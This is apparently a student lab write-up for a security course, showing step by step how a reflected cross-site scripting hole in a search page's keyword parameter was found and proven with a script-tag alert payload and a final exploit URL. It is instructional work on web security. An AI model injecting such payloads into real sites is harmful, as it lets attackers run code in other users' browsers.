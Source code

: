 ## Implementation

### Step 1: Identify the Injection Point

The search functionality was accessible at:

```
https://cs6262.gtisc.gatech.edu/search?keyword=<USER_INPUT>
```

Testing with a simple string:

```
https://cs6262.gtisc.gatech.edu/search?keyword=hello
```

The response included:

```html
<div>You searched for: hello</div>
```

This confirmed the `keyword` parameter was reflected in the response.

### Step 2: Test for XSS

The next step was to test if HTML was interpreted or escaped. I tried:

```
https://cs6262.gtisc.gatech.edu/search?keyword=<b>test</b>
```

If the output showed **test** in bold, the application was vulnerable. If it showed the literal text `<b>test</b>`, the application was properly encoding output.

In this case, the HTML was rendered, confirming the vulnerability.

### Step 3: Craft the Payload

For a proof-of-concept, the standard XSS payload is:

```html
<script>
  alert(1);
</script>
```

This payload:

- Uses a `<script>` tag to execute JavaScript
- Calls `alert(1)` to display a popup
- Proves code execution in the victim's browser

### Step 4: Construct the Final URL

The complete exploit URL was:

```
https://cs6262.gtisc.gatech.edu/search?keyword=<script>alert(1)</script>
```
